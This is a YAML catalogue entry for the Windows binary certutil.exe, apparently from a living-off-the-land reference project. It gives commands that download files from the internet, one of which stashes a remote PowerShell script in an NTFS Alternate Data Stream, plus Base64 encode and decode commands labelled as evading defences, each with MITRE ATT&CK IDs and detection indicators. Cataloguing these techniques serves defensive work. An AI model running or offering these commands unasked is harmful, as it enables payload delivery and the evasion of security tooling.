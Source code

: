 ```yaml
---
name: Certutil.exe
description: Windows binary used for handeling certificates
functions:
  download:
    - description: Download and save 7zip to disk in the current folder.
      code: certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
      mitreid: T1105
      mitrelink: https://attack.mitre.org/wiki/Technique/T1105
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Download file from Internet
  encode:
    - description: Command to encode a file using Base64
      code: certutil -encode inputFileName encodedOutputFileName
      mitreid: T1027
      mitrelink: https://attack.mitre.org/wiki/Technique/T1027
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Encode files to evade defensive measures
  decode:
    - description: Command to decode a Base64 encoded file.
      code: certutil -decode encodedInputFileName decodedOutputFileName
      mitreid: T1140
      mitrelink: https://attack.mitre.org/wiki/Technique/T1140
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Decode files to evade defensive measures
  ads:
    - description: Download and save a PS1 file to an Alternate Data Stream (ADS).
      code: certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
      mitreid: T1105
      mitrelink: https://attack.mitre.org/wiki/Technique/T1105
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Download file from Internet and save it in an NTFS Alternate Data Stream
resources:
    - resource: https://twitter.com/Moriarty_Meng/status/984380793383370752
    - resource: https://twitter.com/mattifestation/status/620107926288515072
fullpath:
    - path: C:\Windows\System32\certutil.exe
    - path: C:\Windows\SysWOW64\certutil.exe
detection:
  - IOC: Certutil.exe creating new files on disk
  - IOC: Useragent Microsoft-CryptoAPI/10.0
  - IOC: Useragent CertUtil URL Agent
acknowledgement:
  - Person: Matt Graeber
    Handle: '@mattifestation'
  - Person: Moriarty
    Handle: '@moriarty2016'
---
```


